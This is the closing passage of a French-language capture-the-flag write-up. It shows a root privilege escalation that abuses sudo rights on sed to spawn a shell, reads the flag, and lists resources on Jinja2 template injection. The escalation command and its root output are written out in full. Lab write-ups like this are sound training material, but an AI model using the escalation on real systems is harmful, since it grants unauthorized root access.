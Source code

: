 C'est presque fini :) On peut exécuter la commande `sed` en tant que super utilisateur via sudo. On fait un tour sur [GTFOBins](https://gtfobins.github.io/), et on trouve ([cette page](https://gtfobins.github.io/gtfobins/sed/)) qui dit comment utiliser `sed` pour spawn un shell !


```
flaskit@vuln-err-able:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
id
uid=0(root) gid=0(root) groups=0(root)
```
Et voilà! Fin du challenge, dans `/root`, on n'a plus qu'à lire fièrement le contenu de `root.txt`.
```
cat root.txt
bf2ae566e364a905320c401ef95528cd
```

### Ressources 
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
- https://www.synacktiv.com/en/publications/cve-2022-31813-forwarding-addresses-is-hard.html
- https://stackoverflow.com/questions/12770950/flask-request-remote-addr-is-wrong-on-webfaction-and-not-showing-real-user-ip
- https://0day.work/jinja2-template-injection-filter-bypasses/
- https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
